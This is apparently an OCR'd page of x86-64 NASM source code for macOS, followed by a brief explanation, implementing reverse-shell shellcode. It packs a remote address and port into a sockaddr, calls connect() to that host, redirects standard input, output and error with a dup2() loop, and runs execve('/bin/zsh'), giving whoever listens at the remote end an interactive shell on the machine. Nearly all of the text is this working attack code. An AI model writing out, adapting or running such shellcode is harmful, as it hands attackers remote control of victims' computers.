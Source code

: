 ```nasm
   push rsi             ; sin_zero

   mov rsi,0x0202000A5C110201 ; 0x01 0x02 0x11 0x5C 0x0A 0x00 0x02 0x02
   dec rsi              ; sin_len = 0x00 after decrement
   push rsi
   push rsp
   pop rsi

   ;; sizeof(addr)
   push 0x10            ; place 0x10 (16) on stack
   pop rdx              ; rdx -> sizeof struct -> 16 bytes -> 0x10

   ;; syscall connect()
   push 98             ; connect() syscall - 98
   pop rax
   bts rax,25
   syscall


   ; dup2(connfd,i)
   mov rdi,r9          ; rdi -> socket file descriptor from r9
   push 2
   pop rsi              ; rsi -> 2
dup2_loop:
   push 90              ; dup2() syscall - 90
   pop rax
   bts rax,25
   syscall

   dec rsi              ; decrementing rsi by 1
   jns dup2_loop        ; jump back to dup2_loop if rsi>=0

   ; execve("/bin/zsh", "/bin/zsh", NULL);
   xor rdx,rdx          ; rdx -> NULL

   push rdx             ; store NULL on stack
   mov rbx,'/bin/zsh'   ; store /bin/zsh in rbx
   push rbx             ; push it onto the stack
   mov rdi,rsp          ; rdi -> /bin/zsh

   push rdx             ; argv[1] -> NULL
   push rdi             ; argv[0] -> /bin/zsh
   mov rsi,rsp          ; store {"/bin/zsh",NULL} in rsi

   push 59              ; execve() syscall - 59
   pop rax
   bts rax,25
   syscall
```

It follows the flow of:
Creating a socket connection (`socket()` syscall).      
Establishing a connection to a remote server (`connect()` syscall).     
Redirecting input/output (`dup2()` syscall).     
Executing a shell command (`execve()` syscall) - in this case, executing /`bin/zsh` (a shell in our Mac OS X).      
